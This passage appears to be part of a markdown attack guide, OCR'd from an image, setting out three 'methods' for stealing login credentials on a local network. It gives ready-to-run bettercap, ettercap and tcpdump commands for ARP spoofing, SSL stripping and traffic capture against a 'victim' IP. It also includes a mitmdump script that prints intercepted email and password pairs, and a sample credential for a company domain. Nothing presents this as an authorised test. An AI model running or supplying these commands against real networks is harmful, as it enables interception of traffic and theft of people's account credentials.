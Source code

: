 ## Method 6: Bettercap (Simple but Unreliable)

**Basic Bettercap Command:**
```bash
# Replace [INTERFACE] and [VICTIM_IP] with actual values
sudo bettercap -iface [INTERFACE] -eval "
set arp.spoof.targets [VICTIM_IP];
arp.spoof on;
set http.proxy.sslstrip true;
http.proxy on;
net.sniff on;
"
```

**Monitor for Credentials:**
```bash
# Watch bettercap output for POST requests with credentials
# Look for: POST data containing {"email":"Employee@sinamoa.com","password":"Employee123!@#"}
```

## Method 7: Simple HTTP Proxy (Debugging Tool)

```bash
# Install mitmproxy for mitmdump
pip install mitmproxy

# Create simple logging proxy
mitmdump -s - <<EOF
def response(flow):
    if "application/json" in flow.request.headers.get("content-type", ""):
        if "email" in flow.request.text and "password" in flow.request.text:
            print(f"[!] CREDENTIALS: {flow.request.text}")
EOF

# Run with traffic redirection (use ettercap for ARP spoofing)
```

## Method 8: TCPDump + Manual Analysis (Fallback)

If all proxies fail, capture and analyze manually:

```bash
# Start ARP spoofing
sudo ettercap -T -M arp:remote /[VICTIM_IP]// /[GATEWAY_IP]//

# Capture all HTTP traffic
sudo tcpdump -i [INTERFACE] -A -s 0 'host [VICTIM_IP] and tcp and port 5000' -w /tmp/capture.pcap

# Analyze in Wireshark or with strings
strings /tmp/capture.pcap | grep -E "(email|password|Employee)"
```

## Clean Up
